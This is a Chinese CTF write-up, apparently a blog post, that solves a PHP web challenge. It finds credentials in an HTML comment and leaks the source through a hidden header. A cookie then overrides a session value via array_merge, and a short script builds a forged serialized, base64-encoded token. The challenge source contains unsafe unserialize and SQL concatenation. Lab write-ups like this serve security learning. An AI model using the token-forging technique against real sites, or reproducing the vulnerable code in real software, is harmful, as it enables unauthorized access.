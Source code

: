 ```yaml
---
title: 
date: 2018-03-16 00:00:03
categories:
- CTF/Web
tags: 百度杯十月 php反序列化 php黑魔法
--- 
```


## 注释以及响应头

在登录页面注释中发现如下，猜测为用户名密码，登录成功
```
<!--  test1 test1  -->
```

在响应头中发现show字段`show: 0`，于是设置请求头`show: 1`，得到源码：

```php

<?php
	include 'common.php';
	$requset = array_merge($_GET, $_POST, $_SESSION, $_COOKIE);
	class db
	{
		public $where;
		function __wakeup()
		{
			if(!empty($this->where))
			{
				$this->select($this->where);
			}
		}

		function select($where)
		{
			$sql = mysql_query('select * from user where '.$where);
			return @mysql_fetch_array($sql);
		}
	}

	if(isset($requset['token']))
	{
		$login = unserialize(gzuncompress(base64_decode($requset['token'])));
		$db = new db();
		$row = $db->select('user=\''.mysql_real_escape_string($login['user']).'\'');
		if($login['user'] === 'ichunqiu')
		{
			echo $flag;
		}else if($row['pass'] !== $login['pass']){
			echo 'unserialize injection!!';
		}else{
			echo "(╯‵□′)╯︵┴─┴";
		}
	}else{
		header('Location: index.php?error=1');
	}

?>

```

## 分析源码

> 并没有考到classdb的反序列化，那里应该是反序列化和注入联合考察

- 如果`$login['user'] === 'ichunqiu';`即可输出flag
- `$login`来自`$requset['token']`
- `$requset`来自`array_merge($_GET, $_POST, $_SESSION, $_COOKIE)`
- 显然在我们的输入中没有发现`token`，那么`token`一定在`session`里
- 于是我们可以在`cookie`设置`token`字段，当使用`array_merge()`给`$requset`便可覆盖`session`中的值

```php

<?php
$login['user'] = 'ichunqiu';
echo base64_encode(gzcompress(serialize($login)));
?>

```

在cookie中添加：`token=eJxLtDK0qi62MrFSKi1OLVKyLraysFLKTM4ozSvMLFWyrgUAo4oKXA==;`即可


